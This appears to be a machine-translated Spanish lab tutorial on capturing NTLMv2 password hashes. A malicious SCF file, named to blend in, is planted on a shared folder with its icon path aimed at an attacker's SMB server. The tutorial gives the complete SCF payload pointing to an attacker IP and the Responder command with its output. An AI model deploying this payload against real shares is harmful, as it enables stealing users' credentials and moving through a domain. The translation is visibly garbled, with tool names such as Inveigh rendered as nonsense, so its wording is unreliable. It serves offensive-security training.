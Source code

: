 
## SCF en un archivo compartido

Windows Explorer utiliza un archivo de comando shell (SCF) para mover los directorios hacia arriba y hacia abajo, mostrar el escritorio, etc. Se puede manipular un archivo SCF para que la ubicación del archivo de icono apunte a una ruta UNC específica y haga que Windows Explorer inicie una sesión SMB cuando reside el archivo .SCF. Si cambiamos el IconFile a un servidor SMB que controlamos y ejecutamos una herramienta como[Respondedor](https://github.com/lgandx/Responder), [Atacar verbalmente](https://github.com/Kevin-Robertson/Inveigh), o[Inveighzero](https://github.com/Kevin-Robertson/InveighZero), a menudo podemos capturar hash de la contraseña NTLMV2 para cualquier usuario que navegue por la participación. Esto puede ser particularmente útil si obtenemos acceso de escritura a un archivo compartido que parece ser muy utilizado o incluso un directorio en la estación de trabajo de un usuario. Es posible que podamos capturar el hash de contraseña de un usuario y usar la contraseña ClearText para aumentar los privilegios en el host de destino, dentro del dominio, o avanzar en nuestro acceso/obtener acceso a otros recursos.

#### Archivo SCF malicioso

En este ejemplo, creemos el siguiente archivo y lo hagamos algo así como`@Inventory.scf`(Similar a otro archivo en el directorio, por lo que no aparece fuera de lugar). Ponemos un`@`Al comienzo del nombre del archivo, aparecerá en la parte superior del directorio para asegurarse de que Windows Explorer lo vea y ejecute tan pronto como el usuario acceda a la acción. Aquí pusimos en nuestro`tun0`Dirección IP y cualquier nombre de compartir falso y nombre de archivo .iCo.

  Interactuar con los usuarios

```shell-session
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

#### Respondedor

A continuación, comience el respondedor en nuestro cuadro de ataque y espere a que el usuario explore la participación. Si todo va según lo planeado, veremos el hash de contraseña NTLMV2 del usuario en nuestra consola e intentará descifrarlo fuera de línea.

  Interactuar con los usuarios

```shell-session
xnoxos@htb[/htb]$ sudo responder -wrf -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
```